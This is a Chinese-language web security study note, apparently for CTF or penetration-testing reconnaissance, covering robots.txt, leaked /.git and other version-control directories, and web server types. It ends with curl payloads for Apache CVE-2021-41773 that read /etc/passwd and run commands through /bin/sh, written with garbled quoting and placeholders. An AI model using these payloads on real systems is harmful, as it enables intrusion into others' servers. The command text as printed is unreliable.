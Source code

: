 ### （三）robots协议

[详解robots协议](https://www.cnblogs.com/sddai/p/6820415.html)

Robots协议（也称为爬虫协议、机器人协议等）的全称是“网络爬虫排除标准”（Robots Exclusion Protocol），网站通过Robots协议告诉搜索引擎哪些页面可以抓取，哪些页面不能抓取。

**Robots协议**也称为爬虫协议、爬虫规则、机器人协议，是网站国际互联网界通行的道德规范,其目的是保护网站数据和敏感信息、确保用户个人信息和隐私不被侵犯。“规则”中将搜索引擎抓取网站内容的范围做了约定,包括网站是否希望被搜索引擎抓取,哪些内容不允许被抓取,而网络爬虫可以据此自动抓取或者不抓取该网页内容。如果将网站视为酒店里的一个房间,robots.txt就是主人在房间门口悬挂的“请勿打扰”或“欢迎打扫”的提示牌。这个文件告诉来访的搜索引擎哪些房间可以进入和参观,哪些不对搜索引擎开放。

如果在服务器返回的请求中有disallowed之类的提示则代表你可以尝试访问robots协议（/robots.txt）来找找想要的内容。

### （四）版本控制仓库的泄漏

[常见的版本控制软件](https://cloud.tencent.com/developer/article/1184654)

> 版本控制软件提供完备的版本管理功能，用于存储、追踪目录（文件夹）和文件的修改历史，是软件开发者的必备工具，是软件公司的基础设施。版本控制软件的最高目标，是支持软件公司的配置管理活动，追踪多个版本的开发和维护活动，及时发布软件。

通常网站会使用这些版本控制仓库进行动态维护，当我们发现网站存在/.git等目录的泄漏，代表其使用的版本控制仓库已经泄漏地址，我们可以在里面找到很多无法通过正常访问手段查看的内容。

常见的版本控制仓库有CVS、SVN、git、Mercurial。

### （五）WEB服务器

> Web服务器当是指驻留于因特网上某种类型计算机的程序。当Web浏览器(客户端)连接到服务器上并请求文件时，服务器会将处理该请求并将文件发送到该浏览器上，附带的信息会告诉浏览器如何查看该文件(即文件类型)。Web服务器会使用HTTP进行信息交流，因此Web服务器也常被称为HTTP服务器。
>
> Web服务器可驻留于各种类型的计算机，从常见的PC到巨型的UNIX网络,以及其他各种类型的计算机。它们通常经过一条高速线路与因特网连接，如果对性能无所谓，则也可使用低速连接(甚至是调制解调器)。
>
> 目前，市场上Web服务器产品的种类很多，比较著名的有**Apache、Netscape Enterpriise、 Zeus、AOLserver、Roxen WebSerer、Jigsew**等。

一般我们常见的web服务器有Nginx、Apache、IIS（Microsoft），这些web服务器有其各自的特性，作为用户和服务器之间的桥梁，它们的侧重点不一样，Nginx应对静态请求效果很好（如.html），Apache应对动态请求（.js/.php/.asp）远远强于Nginx，所有根据一些我们能在服务器上见到的特征可以估测和判断服务器使用的web服务器类型。

对于**Apache**服务器，有这些漏洞可以尝试在早期版本使用：

CVE-2021-41773（目录穿越）

相应的，对应该漏洞的payload是：

> curl -s --path-as-is “：[PORT]/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
>
> ```
> /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
> 
> ```

> curl -s --path-as-is --data “echo;Command“ ”[IP]：[PORT]/cgi-bin/.%2e/%2e%2e/%2e%2e%2e/bin/sh
>
> ```
> /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;id'
> ```

CVE-2021-40438（远程执行）

等等。
